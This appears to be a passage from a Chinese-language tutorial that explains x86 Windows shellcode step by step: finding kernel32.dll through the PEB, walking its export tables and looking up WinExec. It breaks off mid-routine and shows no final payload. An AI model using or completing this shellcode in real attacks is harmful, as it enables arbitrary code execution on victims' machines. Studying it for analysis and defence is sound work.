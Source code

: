   - 解读这段shellcode代码  
    - 获取 ```kernel32.dll``` 的地址，并压入栈中
    ```
    get_kernel32_address:
    xor eax, eax
    mov eax, [fs:eax+0x30] ; EAX = &PEB
    mov eax, [eax+0xC]     ; EAX = &LDR
    mov esi, [eax+0x1C]    ; ESI = 1st entry InitOrderList - ntdll.dll
    lodsd                  ; EAX = 2nd entry InitOrderList - kernelbase.dll
    xchg esi, eax
    lodsd                  ; EAX = 3rd entry InitOrderList - kernel32.dll
    mov eax, [eax+0x8]     ; EAX = &Kernel32.dll
    push eax
    ```
    - 获取 ```kernel32.dll``` 的导出表地址，存储在 EBX 中
    ```
    get_kernel32_export_table:
    mov ebx, [eax+0x3C] ; EBX = RVA NewEXEHeader
    add ebx, eax        ; EBX = &NewEXEHeader
    mov ebx, [ebx+0x78] ; EBX = RVA ExportTable
    add ebx, eax        ; EBX = &ExportTable
    ```
    - 根据导出表地址，获取导出名字表的地址，存储在 EDX 中
    ```
    get_export_name_table:
    mov edx, [ebx+0x20] ; EDX = RVA ExportNameTable
    add edx, eax        ; EDX = &ExportNameTable
    ```
    - 根据导出表地址，获取导出序号列表的地址，并压入栈中
    ```
    get_export_ordinal_table:
    mov ecx, [ebx+0x24] ; ECX = RVA ExportOrdinalTable
    add ecx, eax        ; ECX = &ExportOrdinalTable
    push ecx
    ```
    - 根据导出表地址，获取导出地址表的地址，并压入栈中
    ```
    get_export_addr_table:
    mov edi, [ebx+0x1C] ; EDI = RVA ExportAddrTable
    add edi, eax        ; EDI = &ExportAddrTable
    push edi
    ```
    - 将`WinExec`函数名字符串压入栈中
    ```
    WinExec_String:
    push 0x456E6957 ; EniW
    ```
    - 在导出名字表里查找`WinExec`函数名,找到后获取函数地址，并存储在 EBX 中
    ```
    counter_init:
    xor eax, eax    ; EAX = Counter
